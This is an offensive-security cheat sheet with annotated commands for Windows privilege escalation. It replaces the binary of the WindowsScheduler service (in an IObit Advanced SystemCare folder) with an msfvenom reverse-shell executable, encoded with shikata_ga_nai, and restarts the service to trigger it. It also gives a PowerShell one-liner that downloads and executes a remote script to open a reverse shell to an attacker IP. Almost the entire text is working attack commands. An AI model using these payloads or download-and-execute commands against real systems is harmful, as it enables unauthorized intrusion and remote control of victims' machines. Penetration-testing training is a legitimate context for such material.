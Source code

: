 ### Stop WindowsScheduler service
```powershell copy
Stop-Service -Name "WindowsScheduler"
```
- Stops the WindowsScheduler service if exploitable.
- `-Name "WindowsScheduler"`: Specifies the service.

### Check WindowsScheduler service status
```powershell copy
Get-Service -Name "WindowsScheduler"
```
- Displays the status of the WindowsScheduler service.
- `-Name "WindowsScheduler"`: Specifies the service.

### Generate reverse shell service
```bash copy
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=1234 -e x86/shikata_ga_nai -f exe-service -o WService.exe
```
- Creates a reverse shell executable disguised as a service.
- `-p windows/shell_reverse_tcp`: Payload type.
- `LHOST=10.10.10.10`: Attacker IP.
- `LPORT=1234`: Attacker port.
- `-e x86/shikata_ga_nai`: Encoder for obfuscation.
- `-f exe-service`: Output as service executable.
- `-o WService.exe`: Output file.

### Upload malicious service (Meterpreter)
```bash copy
upload /home/kali/WService.exe "C:\\Program Files (x86)\\IObit\\Advanced SystemCare\\WService.exe"
```
- Uploads the malicious service executable to the target.


### Start WindowsScheduler service
```powershell copy
Start-Service -Name "WindowsScheduler"
```
- Starts the WindowsScheduler service to trigger the payload.
- `-Name "WindowsScheduler"`: Specifies the service.

## PowerShell Reverse Shell

### Execute PowerShell reverse shell
```powershell copy
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 1234
```
- Downloads and runs a PowerShell reverse shell connecting to attacker.
- `iex`: Executes downloaded script.
- `-Reverse`: Reverse shell mode.
- `-IPAddress 10.10.10.10`: Attacker IP.
- `-Port 1234`: Attacker port.
